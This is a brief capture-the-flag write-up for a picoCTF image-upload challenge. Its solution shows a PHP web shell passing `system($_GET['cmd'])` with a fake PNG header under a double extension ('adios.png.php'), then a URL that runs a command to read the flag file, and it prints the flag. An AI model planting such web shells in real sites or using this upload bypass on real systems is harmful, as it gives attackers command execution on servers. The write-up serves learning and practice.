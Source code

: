 ## Descripción
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
Try it [here](http://atlas.picoctf.net:53323/)!
## Pistas

## Solución 1
Subiendo un archivo PNG `adios.png.php`
```php
PNG

<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`

`http://atlas.picoctf.net:53323/uploads/adios.png.php?cmd=cat%20../G4ZTCOJYMJSDS.txt`
## Notas adicionales

## Referencias
